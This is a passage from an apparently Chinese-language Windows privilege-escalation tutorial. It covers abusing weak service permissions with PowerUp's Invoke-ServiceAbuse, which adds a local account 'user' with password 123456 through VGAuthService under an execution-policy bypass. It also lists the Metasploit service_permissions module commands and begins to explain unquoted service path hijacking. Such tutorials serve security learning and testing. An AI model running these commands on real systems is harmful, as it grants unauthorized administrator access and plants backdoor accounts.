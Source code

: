 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127105304.png-water_print](assets/1699411459-68c19aa94d12eec8dd11cbb88dd3dda4.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127105304.png-water_print")

-   ServiceName：可能存在漏洞的服务
-   Path：该服务的可执行程序的路径
-   StartName：服务运行账号
-   AbuseFunction：利用方式

根据 AbuseFunction 中的利用方式执行脚本，这里以 VGAuthService 服务为例

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127105407.png-water_print](assets/1699411459-553c4ce672cb37fcd8173be3aeff0115.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127105407.png-water_print")

添加一个名为 user，密码为 123456 的账号：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -Command "& {Import-Module C:/PowerUp.ps1;Invoke-ServiceAbuse -Name 'VGAuthService' -Username user -Password 123456}"<br>``` |

#### [](#313-metasploit)3.1.3 metasploit

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```bash<br>use exploit/windows/local/service_permissions<br>set AGGRESSIVE true<br>set session 1<br>exploit<br>``` |

### [](#32-%E5%8F%AF%E4%BF%A1%E4%BB%BB%E6%9C%8D%E5%8A%A1%E8%B7%AF%E5%BE%84%E6%8F%90%E6%9D%83)3.2 可信任服务路径提权

可信任服务路径漏洞利用了 Windows 文件路径解析的特性，如果一个服务调用的可执行文件没有正确地处理所引用的完整路径名，同时攻击者该文件路径有可写权限，攻击者就可以上传文件来劫持路径名。

例如 Windows 系统启动某服务时查找的文件路径为 `C:\Program Files\Some Folder\Services.exe`。

对于该路径中的每一个空格，Windows 都会尝试并执行与空格前面的名字相匹配的程序，因此 Windows 会以依次如下顺序查找一下启动程序：
